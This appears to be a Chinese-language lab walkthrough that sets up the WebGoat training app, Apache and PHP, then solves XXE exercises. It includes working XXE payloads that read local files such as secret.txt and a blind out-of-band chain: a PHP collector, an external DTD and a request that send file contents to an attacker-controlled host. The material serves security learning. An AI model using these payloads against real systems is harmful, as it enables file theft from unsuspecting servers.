 # WebGoat 搭建  
1. 
安装docker,使用以下命令  
```bash
docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat
```  


2. 
https://github.com/WebGoat/WebGoat/releases/download/v2025.3/webgoat-2025.3.jar  


3. 使用源码搭建  

- 下载源码  
```
git clone https://github.com/WebGoat/WebGoat.git
``` 
进入，在当前目录打开pom.xml文件，找到java.version标签，把java版本修改为自己的java版本。 使用管理员权限，执行  
```bash
./mvnw.cmd clean install
```  
~/.m2/repository/org/eclipse/jgit/org.eclipse.jgit
cd ~/.m2/repository/org/apache/pdfbox/pdfbox/2.0.24  

# php和Apache httpd  
httpd下载连接  
```
https://www.apachelounge.com/download/ 
```  
解压缩之后有一个叫Apache24的文件夹，如果移动到其他地方，需要自己修改配置，如果直接放在C盘，就不需要再修改配置。  
配置文件是Apache24/config/httpd.conf,找到图中内容，把路径修改为自己的路径  
在Apache24/bin目录双击运行ApacheMoniter.exe  
![alt text](image.png)  
![alt text](image-1.png)  
如果没有打开，左键单击图标可以开启  
![alt text](image-2.png)
如果左键没有反应，右键单击，打开open servers,看到Apache2.4,就开启他  

启动成功后访问localhost，页面应该和Apache24/htdocs/index.html一样  
![alt text](image-3.png)  

php下载连接 
```
https://www.php.net/downloads.php  
```
选择一个版本，点击Windows downloads，
![alt text](image-4.png)  

有很多，比如这里有两个，上面是Non Thread Safe,下面是Thread Safe,下载Thread Safe的，解压之后放好  

打开Apache24/conf/httpd.conf文件，在合适的地方添加下面内容，文件内有很多标签，不要加在标签内部就可以了。文件路径该为自己php的路径。  
```
LoadModule php_module 'C:/server/php8.4.5/php8apache2_4.dll'
PHPIniDir 'C:/server/php8.4.5'
AddType application/x-httpd-php .php
```

在Apache24/htdocs/下添加一个hello.php文件，填写下面内容  
```php
<?php

echo "hello";
```  
然后重启httpd
![alt text](image-2.png)  
访问localhost/hello.php  
下面是成功的情况  
![alt text](image-5.png)  
如果没有配置好，可能是下面的样子  
![alt text](image-6.png)  

# XXE  
XXE（XML外部实体注入）是一种针对应用程序处理XML数据的方式的攻击。在这种攻击中，攻击者利用应用程序对XML输入的处理不当，访问敏感数据。  

## XML  
XML 是可扩展标记语言（Extensible Markup Language），是一种标签语言，用来传输和存储数据。必须使用树形结构。  
DTD用于定义XML文档的结构、元素、属性、实体等合法组成规则。  
XML实体在DTD中被声明，用于代替内容或标记。  

## 一个XXE的简单例子  
![alt text](image-7.png)  
要求找到根目录下的内容有什么  

先提交一个评论，抓包  
![alt text](image-8.png)  
可以发现请求体使用xml格式，再次发送拦截，并且修改请求体为以下内容  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY root SYSTEM "file:///">
]>
<comment>
<text>&root;</text>
</comment>
```  
提交之后发现评论区出现了根目录的内容  
![alt text](image-9.png)  

第七页，因为现代REST框架，服务器可能会处理开发者没有考虑的情况，这里请求体使用json格式，但是服务端仍然可以处理xml格式的信息，所以conten-type之后采用同样的方式攻击  
修改两处，一个是Content-Type，修改成如图内容，一个是修改请求体，修改内容和上一题一样  


## blind xxe  

服务端可能设置一些过滤规则，或者由于某些特殊字符导致返回结果不可见。以一个题为例  

任务是找出/home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt的内容  
![alt text](image-10.png)  

首先发个请求抓包  
![alt text](image-11.png)
按照xxe的思路，将请求体修改为一下内容发送，评论区将显示想要的结果  
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>
<text>&secret;</text>
</comment>
```
但是返回结果并不是想要的内容，这是因为服务端检查到特殊的内容后，会将原本预期的内容修改  
![alt text](image-12.png)  

可以使用外带数据的方式实现xxe攻击  

外带数据一般是将目标内容作为get请求的参数添加到url路径后面，查看请求得到url，以本题为例  

首先需要一个目标主机能访问到的服务，攻击者能查看这个服务的请求信息  
这里可以使用Apache搭建一个服务  
比如使用Apache2.4,在Apache24/htdocs下新建一个get.php文件，内容如下  
```php
<?php

echo "This is very good!","</br>";
$file = fopen("test.txt","w");
foreach ($_GET as $key => $val){
    echo $key," ",$val,"</br>";
    fwrite($file,$val);
    fwrite($file,"\n");
}

fclose($file);
```  
当目标主机访问这个页面时，get请求的参数值会保存到test.txt文件中  

建立一个kk.txt,内容如下  
```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  

发评论，抓包，修改请求体如下  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
查看test.txt,保存了目标内容  
